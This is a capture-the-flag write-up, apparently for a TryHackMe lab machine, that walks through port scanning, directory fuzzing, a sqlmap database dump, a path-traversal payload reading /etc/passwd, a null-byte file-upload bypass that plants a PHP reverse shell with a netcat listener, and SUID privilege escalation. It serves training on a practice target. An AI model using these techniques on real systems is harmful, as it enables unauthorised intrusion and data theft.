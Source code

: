 ```yaml
---
title: "Academy"
collection: publications
permalink: /publication/academy
excerpt: 'This is a subscriber only room from TryHackMe'
date: 2023-09-19
venue: '09-19'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/expose-header.png)

**LINK:** [Academy](https://tryhackme.com/room/expose)

---

## Enumeration : 

* The initial scan of the target revealed 6 open ports

```bash
# nmap -sV -sC -T4 -p- 10.10.191.104
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 08:18 EDT
Nmap scan report for 10.10.191.104
Host is up (0.11s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE    SERVICE                 VERSION
21/tcp    open     ftp                     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.0.245
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open     ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 54b1deb55cd1c66348b9425dc5a726cf (RSA)
|   256 0466e91b7928de2252c68c488d259339 (ECDSA)
|_  256 b58adc38ec28fd7249e239f0ff9fe5a6 (ED25519)
53/tcp    open     domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp  open     http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp  open     mosquitto version 1.6.9
35224/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* I initiated a directory scan using ``ffuf`` on the web server at port 1337, which yielded several interesting directories.

```bash
ffuf -u http://10.10.197.217:1337/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.197.217:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 684ms]
    * FUZZ: .htaccess

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 185ms]
    * FUZZ: .htpasswd

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 183ms]
    * FUZZ: admin

[Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 175ms]
    * FUZZ: admin_101

[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 119ms]
    * FUZZ: javascript

[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 121ms]
    * FUZZ: phpmyadmin

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 135ms]
    * FUZZ: server-status

:: Progress: [20476/20476] :: Job [1/1] :: 315 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```
* While i explored the directories, i was unable to find any useful information regarding the ``/admin`` page.
* However, i noticed something intriguing on ``/admin_101``,  the username field was prefilled, indicating that this might be the correct login page.

![expose1](/images/expose1.png)

## User Flag : 

* Lacking valid credentials, i considered a SQL injection attack as our next step.
* i captured the login request with Burp Suite and saved the request to use SQLMap for our attack

![expose2](/images/expose2.png)

* Running SQLMap with the captured request, we successfully dumped the database.

```bash
sqlmap -r req --dump
```

![expose3](/images/expose3.png)

* From the database, i obtained the password for the admin portal and discovered two URLs: `/file1010111/index.php` and `/upload-cv00101011/index.php`.

* i found a hash for `/file1010111/index.php`, which might be crackable.

![expose4](/images/expose4.png)

* As i provided the cracked password, i received another hint to fuzz for parameters.

![expose5](/images/expose5.png)

* Visiting `/upload-cv00101011/index.php` gives us a hint about the password being the name of the machine user starting with the letter Z.

* back to `/file1010111/index.php`, let's check the source code

![expose6](/images/expose6.png)

* the 2nd hint suggests to use `file` or `View` as get parameters, it indicates that maybe this page is vulnerable to local file inclusion and we can read files on the system.

* By adding `?file=../../../../../etc/passwd` to the URL, i successfully read the `/etc/passwd` file and identify a username starts with letter `Z` which is `zeamkish`.

![expose7](/images/expose7.png)

* Upon visiting `/upload-cv00101011/index.php` after providing the username, i encountered a file upload page.

![expose8](/images/expose8.png)

* Examining the source code, i discovered a simple JavaScript filter allowing only JPG or PNG files.

![expose9](/images/expose9.png)

* A quick search on bypassing file upload restrictions led me to a useful [resource](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)

* I downloaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), renamed it to shell.phpD.jpg, and captured the upload request in Burp Suite.

* Switching to hex format and changed the letter "D" to a null byte `00`

![expose10](/images/expose10.png)

![expose11](/images/expose11.png)

* Starting a netcat listenner and visiting `/upload-cv00101011/upload_thm_1001` and clicking on `shell.php` triggered the payload.

```bash
nc -lvnp 1234
```

![expose12](/images/expose12.png)

* After gaining a shell, i upgraded it by following specific commands

![expose13](/images/expose13.png)

* In `zeamkish's` home directory, i located the flag file that i couldn't access. However, i found the credentials stored for the user in `ssh_cred.txt`

![expose14](/images/expose14.png)

* Logging in as zeamkish via `SSH`, i obtained the user flag.

## Root Flag: 

* Privilege escalation proved to be straightforward. i identified the find command with the SUID bit set

```bash
find / -perm -u=s -type f 2>/dev/null
```

![expose15](/images/expose15.png)

* A visit to [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) showed us how to use it to escalate our privileges to root.

![expose16](/images/expose16.png)







